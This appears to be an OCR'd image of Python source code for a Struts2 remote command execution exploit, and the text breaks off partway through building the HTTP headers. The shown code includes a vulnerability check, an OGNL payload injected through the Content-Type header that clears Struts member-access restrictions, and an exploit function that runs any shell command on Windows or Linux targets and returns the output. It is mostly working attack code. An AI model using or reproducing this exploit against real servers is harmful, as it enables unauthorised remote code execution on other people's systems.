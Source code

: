 ```bash
    def randomstr(self, length):
        '''generate a random string'''
        return ''.join(
            random.choice(string.ascii_uppercase + string.digits)
            for _ in range(length)
        )

    def exploit(self, url, cmd):
        '''execute cmd on remote target'''
        if self.check(url):

            ognl = ""
            ognl += "(#cmd='%s')." % cmd
            ognl += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
            ognl += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
            ognl += "(#p=new java.lang.ProcessBuilder(#cmds))."
            ognl += "(#p.redirectErrorStream(true)).(#process=#p.start())."
            ognl += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
            ognl += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
            ognl += "(#ros.flush())"

            http = self.send_struts_request(url, ognl)
            if http:
                print("[*] struts2-cmd $ %s\n" % cmd)
                print("[*] %s\n" % http.text)

    def check(self, url):
        '''test if target is vulnable'''
        var_a = self.randomstr(4)

        ognl = ""
        ognl += "(#os=@java.lang.System@getProperty('os.name'))."
        ognl += "(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('%s', #os))" % var_a

        http = self.send_struts_request(url, ognl)

        bret = http and (var_a in http.headers)
        if bret:
            print("[+] The target is vulnerable.")
        else:
            print("[?] The target is unknown, please check it manually")

        return bret

    def send_struts_request(self, url, ognl):
        '''send request(s) with struts payload'''
        payload = ""
        payload += "%{"
        payload += "(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))."
        payload += ognl
        payload += "}"

        headers = {
            'User-Agent': 'Mozilla/5.0',
            'Content-Type': payload
```